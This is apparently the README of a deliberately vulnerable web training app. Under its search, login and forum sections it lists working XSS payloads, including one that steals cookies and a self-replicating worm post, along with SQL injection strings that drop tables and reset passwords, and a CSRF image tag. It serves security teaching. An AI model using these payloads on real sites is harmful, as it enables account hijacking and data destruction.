 # Web Playground
A web application demonstrating web vulnerabilities. Testing XSS, script injection, SQL injection,...

# Known issues

Here is a list of all known voulnarbilities on the site

## Search

1. XSS: When displaying "You searched for <string>" the string is not properly
escaped.
   * Test for XSS: `<script> alert("XSS!") </script>`
   * Change all links: `Facebook <script> $(function(){$("a").attr("href", "/evil");}); </script>`
   * __Steal cookies__: `<script> $.get("/evil?save=cookie&cookie="+encodeURI(document.cookie)); </script>`
2. SQL Injection: SQL query is manually created and not properly escaped.
   * Test shows stack trace and actual code: `'`
   * See all hidden links: `aaa ' OR hide=1 OR hide='`

## Login

1. Remember password: Browser can preload your saved passwords.
   * You can inspect the password input field and change type from `password` to
   `text` and the saved password will be visible.
2. GET: Using GET method instead of POST
   * Everyone can see all the posted data i.e. username and password in the URL
3. CSRF: site does not check for origin of the request
   * You can click a link (or not) and be logged in as someone else
4. __SQL injection: SQL query not properly escaped__
   * Test shows stack trace and actual code: `'`
   * Delete tables: `'); DROP TABLE users;('`
   * Change all passwords: `'); UPDATE users SET password='funfun';`

## Forum

2. GET: Using GET method instead of POST
   * No re-confirmation when reloading a page. You simply re-post.
3. CSRF: site does not check for origin of the request
   * Images can cause damage: `<img src='/forum?action=new&title=XSS&content=imageXSS'/>`
4. XSS: Many things not escaped. Title, content, user's name.
   * Self replicating post:
      ```HTML
      <span class="xss">
          Tekst?
          <script>
              $.get('?action=new&title=XSS&content='+
                    encodeURIComponent($(".xss")[0].outerHTML));
          </script>
      </span>
      ```
   * __Steal cookies__: `<script> $.get("/evil?save=cookie&cookie="+encodeURI(document.cookie)); </script>`

## Database viewer (/db_viewer_XDSie983BQbnxc_asjdh)

1. URL change: no sanity checks for url parameters
   * Access all data by changing table name in the url

